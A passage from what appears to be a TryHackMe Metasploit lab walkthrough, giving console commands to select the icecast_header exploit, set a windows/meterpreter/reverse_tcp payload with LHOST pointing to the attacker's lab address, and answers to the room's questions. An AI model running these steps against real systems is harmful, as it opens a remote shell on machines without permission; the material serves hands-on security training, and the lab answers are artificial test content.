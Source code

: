 > exploit/windows/http/icecast_header

![icecast](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/Metasploit/image/icecast.png)

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command `search multi/handler`.

Go ahead and run the command `use NUMBER_NEXT_TO  exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

***

What is the name of the column on the far left side of the console that shows up next to 'Name'?

> #

Now type the command `use NUMBER_FROM_PREVIOUS_QUESTION`. This is the short way to use modules returned by search results. 

> use NUMBER_FROM_PREVIOUS_QUESTION

![icecast_header](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/Metasploit/image/icecast_header.png)

Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command `ip addr`, it will likely be your tun0 interface.

> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST YOUR_IP_ON_TRYHACKME

![set_payload](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/Metasploit/image/set_payload.png)

Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.
